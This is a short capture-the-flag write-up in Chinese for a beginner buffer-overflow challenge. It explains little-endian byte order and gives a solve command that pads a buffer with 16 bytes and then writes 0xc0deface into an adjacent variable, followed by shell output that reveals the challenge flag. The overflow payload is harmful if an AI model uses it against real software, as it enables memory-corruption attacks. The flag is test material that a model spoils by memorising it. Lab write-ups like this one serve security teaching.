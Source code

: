 # Overflow 1
給你一個有buffer overflow問題的程式，並且給你stack diagram。
 * x86是little endian：`0xc0deface`存成memory中，長的像這樣：`\xce\xfa\xde\xc0`
 * 只要填到讓buf溢出到secret的剛剛好等於 `\xce\xfa\xde\xc0` 即可
 
## Solve
```
$ ./overflow1 $(python -c 'print "A"*16 + "\xce\xfa\xde\xc0"')
$ ls
flag.txt    Makefile    overflow1 overflow1.c
$ cat flag.txt
ooh_so_critical
```

